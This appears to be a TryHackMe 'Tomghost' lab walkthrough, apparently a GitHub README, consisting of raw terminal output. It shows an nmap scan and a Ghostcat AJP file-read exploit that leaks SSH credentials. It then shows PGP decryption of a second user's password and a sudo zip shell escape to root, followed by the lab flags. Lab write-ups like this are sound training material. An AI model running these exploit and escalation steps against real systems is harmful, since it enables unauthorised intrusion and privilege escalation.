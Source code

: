# TomGhost_Workthrough
TryHackMe box Tomghost Workthrough


>sudo nmap -sC -sV 10.10.65.36
Starting Nmap 7.92SVN ( https://nmap.org ) at 2022-07-31 18:47 IST
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:47 (0:00:06 remaining)
Nmap scan report for 10.10.65.36
Host is up (0.21s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.72 seconds
> cd Ghostcat-CNVD-2020-10487
> ls
ajp-execute.png  ajp-read.png  ajp-save.png  ajpShooter.py  README.md
> python3 ajpShooter.py http://10.10.65.36 8009 /WEB-INF/web.xml

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    
usage: ajpShooter.py [-h] [--ajp-ip AJP_IP] [-H HEADER] [-X {GET,POST,HEAD,OPTIONS,PROPFIND}] [-d DATA] [-o OUT_FILE] [--debug] url ajp_port target_file {read,eval}
ajpShooter.py: error: the following arguments are required: shooter
> python3 ajpShooter.py http://10.10.65.36 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
> ssh skyfuck@10.10.65.36
The authenticity of host '10.10.65.36 (10.10.65.36)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:6: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.36' (ED25519) to the list of known hosts.
skyfuck@10.10.65.36's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ cd  ..
skyfuck@ubuntu:/home$ cd ..
skyfuck@ubuntu:/$ ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
skyfuck@ubuntu:/$ cd 
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ cd ..
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd skyfuck/
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ gpg -d credential.pgp 
gpg: directory `/home/skyfuck/.gnupg' created
gpg: new configuration file `/home/skyfuck/.gnupg/gpg.conf' created
gpg: WARNING: options in `/home/skyfuck/.gnupg/gpg.conf' are not yet active during this run
gpg: keyring `/home/skyfuck/.gnupg/secring.gpg' created
gpg: keyring `/home/skyfuck/.gnupg/pubring.gpg' created
gpg: encrypted with ELG-E key, ID 6184FBCC
gpg: decryption failed: secret key not available
skyfuck@ubuntu:~$ pgp --import tryhackme.asc 
The program 'pgp' is currently not installed. To run 'pgp' please ask your administrator to install the package 'pgpgpg'
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
skyfuck@ubuntu:~$ gpg -d credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu:~$ 
skyfuck@ubuntu:~$ su merlin
Password: 
su: Authentication failure
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ ls
credential.pgp  tryhackme.asc
merlin@ubuntu:/home/skyfuck$ cd ..
merlin@ubuntu:/home$ cd ..
merlin@ubuntu:/$ cd ..
merlin@ubuntu:/$ cd home
merlin@ubuntu:/home$ cd merlin
merlin@ubuntu:~$ ls
user.txt
merlin@ubuntu:~$ cat user.txt 
#THM{GhostCat_1s_so_cr4sy}
merlin@ubuntu:~$ sudo -l -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:

Sudoers entry:
    RunAsUsers: root
    RunAsGroups: root
    Options: !authenticate
    Commands:
        /usr/bin/zip
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# ls -l
total 4
-rw-rw-r-- 1 merlin merlin 26 Mar 10  2020 user.txt
# ls-la
sh: 3: ls-la: not found
# ls -la
total 36
drwxr-xr-x 4 merlin merlin 4096 Mar 10  2020 .
drwxr-xr-x 4 root   root   4096 Mar 10  2020 ..
-rw------- 1 root   root   2090 Mar 10  2020 .bash_history
-rw-r--r-- 1 merlin merlin  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Mar 10  2020 .bashrc
drwx------ 2 merlin merlin 4096 Mar 10  2020 .cache
drwxrwxr-x 2 merlin merlin 4096 Mar 10  2020 .nano
-rw-r--r-- 1 merlin merlin  655 Mar 10  2020 .profile
-rw-r--r-- 1 merlin merlin    0 Mar 10  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt
# ls -al  
total 36
drwxr-xr-x 4 merlin merlin 4096 Mar 10  2020 .
drwxr-xr-x 4 root   root   4096 Mar 10  2020 ..
-rw------- 1 root   root   2090 Mar 10  2020 .bash_history
-rw-r--r-- 1 merlin merlin  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Mar 10  2020 .bashrc
drwx------ 2 merlin merlin 4096 Mar 10  2020 .cache
drwxrwxr-x 2 merlin merlin 4096 Mar 10  2020 .nano
-rw-r--r-- 1 merlin merlin  655 Mar 10  2020 .profile
-rw-r--r-- 1 merlin merlin    0 Mar 10  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt
# cd ..
# ls -a
.  ..  merlin  skyfuck
# cd ..
# ls 
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
# cd root
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}

